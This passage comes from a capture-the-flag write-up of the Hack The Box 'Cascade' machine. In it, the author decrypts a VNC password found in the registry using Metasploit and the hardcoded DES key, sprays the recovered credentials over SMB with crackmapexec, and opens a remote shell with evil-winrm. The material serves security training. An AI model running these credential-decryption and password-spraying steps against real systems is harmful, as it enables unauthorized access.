 As soon as I saw the `VNC Install.reg` key I knew there had to be a password in it, and I was not disappointed.  The password was encrypted and stored in a hexadecimal format, though **`frizb`** has a repository on GitHub that describes how to decrypt this at [https://github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts).

> VNC uses a hardcoded DES key to store credentials. The same key is used across multiple product lines.

```ruby
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
```

**`frizb`** mentions that there is an easy way to decode this using the interactive Ruby prompt in Metasploit.  Using the "industry standard" decryption key `\x17\x52\x6b\x06\x23\x4e\x58\x07` I was able to decode the password `sT333ve2`.

```text
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:Cascade) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] Cascade\s.smith:sT333ve2
```

### **User.txt**

```text
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
cascade\s.smith S-1-5-21-3332504370-1206983947-1165150453-1107


GROUP INFORMATION
-----------------

```